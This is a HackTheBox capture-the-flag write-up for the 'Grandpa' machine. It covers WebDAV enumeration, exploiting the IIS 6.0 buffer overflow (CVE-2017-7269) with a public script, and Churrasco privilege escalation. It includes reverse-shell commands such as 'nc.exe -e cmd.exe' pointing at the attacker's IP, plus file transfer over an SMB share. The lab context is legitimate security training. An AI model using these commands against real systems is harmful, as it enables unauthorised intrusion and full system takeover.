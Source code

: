 #Grandpa [htb](https://app.hackthebox.com/machines/13)
![grandpa-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/grasndpa-01.png)

## Recon

After adding the target to my `/etc/hosts`, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 grandpa.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/ports-02.png)

A single HTTP port. Let's perfrom service and version detection:

```bash
nmap -p 80 -sCV grandpa.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/nmap-res-03.png)

We can see that `nmap` has identified that [WebDAV](https://en.wikipedia.org/wiki/WebDAV) is enabled on this server. In short, `WebDAV` are extensions to the HTTP protocol that allows authorized users to create, change and move documents on the server. Thus, allowing the server to be viewed as a modifiable, collaborative medium instead of a read-only medium. 

In terms of a pentest, we want to try and leverage the `WebDAV` to uplaod and execute files on the server. Usually, to connect to the `WebDAV`server we need valid credentials, so if we dont have any we might need to [brute force](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#http-basic-auth). Other then that, we need to determine which methods are supported by the server, and which file extensions can be uploaded, etc. 

We can run tools like `davtest` and `curl` to enumerate the `WebDAV` server further. `HackTricks` has a nice [overview](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) we can follow.

Based on the `nmap` scan we can also see that the web server is an IIS 6.0. This is relevant, because there is a buffer-overflow [exploit](https://www.exploit-db.com/exploits/41738) for IIS 6.0 servers with `WebDAV`, however I want to try and go the manual route first.

### IIS Port 80

Let's start by opening the site at `http://grandpa.htb`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/site-04.png)

Not much to see here. Let's run a directory and file scan using:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://grandpa.htb/FUZZ -e .aspx,.cgi,.txt,.xml,.conf,.html
```

Which brings the following result:

![images-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/images-05.png)

![private-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/private-06.png)

Trying to open the `images` directory eventually ends up with a `403` forbidden code after a couple of redirects. The `_private` directory looks more interesting though, typically `WebDAV` directories are prefixed with an underscore to try and hide them. 

Let's try to upload a file, We can do this with:

```bash
curl -i -s -k -X PUT http://grandpa.htb/_private -d @test.txt
```

This didnt work I got a `403` error. I tried different file extensions like `html`, and `png`. I tried to upload to different directories like the root of the server and `images` nothing worked. 

I decided to run `davtest` to see if it can cover something I missed:

```bash
davtest -url http://grandpa.htb/_private
```

![davtest-07}(https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-07.png)


Trying different directories does at least connect, but we cant upload or do anything on them 
![davtest-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-08.png)

I think it's safe to conclude that we cant manually exploit the `WebDAV` itself. Let's go for the buffer-overfow expliot.

### Buffer-Overflow


If we go to the [ExploitDB](https://www.exploit-db.com/exploits/41738) version, we can see that the shellcode launches `cala.exe` instead of a remote shell:

![calc-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/calc-09.png)

We dont want that. We could try to generate our own shellcode and simply replace the one in the script. 
This however is not so simple, and for me it didnt work. 

So I searched online and found [this exploit](https://github.com/danigargu/explodingcan/tree/master). It  has a clean code, and the most stars. This one also specified that the shellcode needs to be alphanumeric encoded, which is interesting. 

At first I tried to get a standard shell without a meterpreter but this didnt work. So instead I followed the instructioins on the github page and generated a meterpreter shellcode. I then setup `multi/handler` and got a shell in meterpreter using `msfconsole`.

This worls, but I want to try and avoid `metasploit` as much as possible, so I searched online for other exploits and I found [this one](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). 

Based on the source code, we can see the expected arguments when invoking the script:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/source-10.png)

We need to specify the remote IP and port of the target, as well as our listener's. But I dont see the exploit creating a thread to catch the reverse shell so we need to do that ourselfes. 

I setup the listener with:

```bash
rlwrap nc -lnvp 443
```

And execute the exploit with:

```bash
python2 exploit.py 10.129.95.233 80 10.10.14.46 443
```

The script hangs for a few seconds, then I get a shell on my `nc`:

![shell-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/shell-11.png)

## Privilege Escalation

Immediately after landing on the machine I start hunting for quick wins. I started by looking for stored credentials with `cmdkey /list` but there are none. 

I then move on to look for user privileges with `whoami /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/privs-12.png)

Here we can see our user has the `Impersonate` privileges enabled, which means we can try to pull of a [potato attack](https://jlajara.gitlab.io/Potatoes_Windows_Privesc). My go to for Windows servers < 2019 is [JuicyPotato](https://github.com/ohpe/juicy-potato), but this is an old Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
``` 

![sysinfo-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/sysinfo-15.png)


So instead let's try [Churrasco](https://github.com/Re4son/Churrasco/). To pull this off we need to transfer the `Churrasco` binary over to the target along with `nc.exe`. This, I typically achive with a python server on my attack machine, and `certutil` to downlaod the files over to the target. 

However on this machine, there is an issue:

![cert-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/cert-err-13.png)

I know my syntax is correct, as it works on virtually any other Windows machine, but here it doens't. Searching this error online, I came to find that we have an issue with the Certificate Revocation List (CRL) being expired. Thus causing applications that need to check the revocation status of certificates issued by this CA to fail.

I tried to find a way to craete a new CRL using `certutil -CRL`, didnt work. I tried to create a new certificate database with `certutil -N -d .`, didnt work. After a few dozen minutes googling I decided to give up on the idea and try powershell instead.

This is where I encountered another issue:

![no-ps-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/no-ps-14.png)

I tried searching for `C:\\Windows\System32\WindowsPowerShell`, there is none. Powershell was intoruced with Windows server 2008, but it was addedd to Windoes server 2003, just not this one I guess. 

Instead let's setup an SMB server on my attack machine using `impacket`:

```bash
impacket-smbserver -smb2support grandpa .
```
 
Then I connect to the share and copy the files over from the target using:

```cmd
net use \\10.10.14.46\grandpa
copy \\10.10.14.46\grandpa\churrasco.exe
copy \\10.10.14.46\grandpa\nc.exe
```

Now we can see both files are on the target:

![files-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/files-15.png)

Now we can test `churrasco` by running `churrasco.exe "whoami"`:

![whoami-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/whoami-16.png)

We can see that is works, and we have command execution as the `SYSTEM`. 

So now we can setup a listener on our Kali machine with:

```bash
rlwrap nc -lnvp 8080
```

And use `nc.exe` to connect back to our machine:

```cmd
churrasco.exe "C:\\windows\Temp\nc.exe -e cmd.exe 10.10.14.46 8080"
```

Which gets us a shell as the `SYSTEM`:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/root-17.png)




